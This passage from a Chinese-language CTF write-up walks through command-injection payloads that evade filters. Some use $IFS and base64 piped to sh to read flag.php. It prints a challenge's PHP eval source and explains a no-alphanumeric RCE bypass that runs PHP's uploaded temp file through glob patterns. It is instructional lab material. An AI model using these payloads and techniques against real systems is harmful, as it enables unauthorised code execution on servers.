 ```bash
?ip=127.0.0.1;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|bash
```

但是这题过滤了bash，没过滤sh
sh是比bash更简单的shell，功能较为基础

```bash
?ip=127.0.0.1;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh
```

### [Aurora 2024] yet_another_rce

一开始完全不会，搜无字母rce也没找到能进行的，因为过滤了`$`，基本只剩下一个p能用了，一开始还想着用自增来做，但是不能获取之前的字母（应该是，反正做不出来

```php
//src code for yet_another_rce
<?php

//something hide here ..?
highlight_string(shell_exec("cat ".__FILE__." | grep -v preg_match | grep -v highlight | grep -v REQUEST | grep -v die | grep -v }"));

$cmd = $_REQUEST["c"];

if (preg_match("/[A-Za-oq-z0-9$]+/",$cmd)){
    die("character error");
}

if(preg_match("/\~|\!|\@|\#|\%|\^|\&|\*|\(|\)|\（|\）|\-|\_|\{|\}|\[|\]|\'|\"|\:|\,/",$cmd)){
    die("symbol error");
}

eval($cmd);

?>

```

后来才知道有个临时文件上传的知识点，参考了这篇博客[无字母数字webshell之提高篇 | 离别歌](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)

这篇文章提到了在php7之后可以用取反绕过来绕过无字母rce，但是这题把`%`也过滤了，所以只能用临时文件上传

> linux shell知识点：
>
> 1. shell下可以利用`.`来执行任意脚本
> 2. linux文件名支持用`glob`通配符代替
>
> * `*`代表匹配0个及以上任意字符
> * `?`代表匹配1个任意字符
> * `[^x]`代表这个位置不是字符x
>
> 在bash环境下 `. file `就是利用bash执行file文件中的命令
>
> 当我们发送一个上传文件的POST包时，php会将我们上传的文件保存在临时文件下，默认的文件名是`/tmp/phpXXXXXX`，文件名最后6个字符是随机的大小写字母，这里就可以使用glob通配符代替
> 但是因为可以匹配上`/???/?????????`的文件很多，所以我们要限制
> 文章给的方法是因为只有我们PHP生成的临时文件包含大写字母，使用[]来选定范围大写字符，大写字母在@和[之间
>
> `/???/????????[@-[]`表示最后一个字符是大写字母
>
> 因为上传的文件名是随机的，可能要多尝试几次
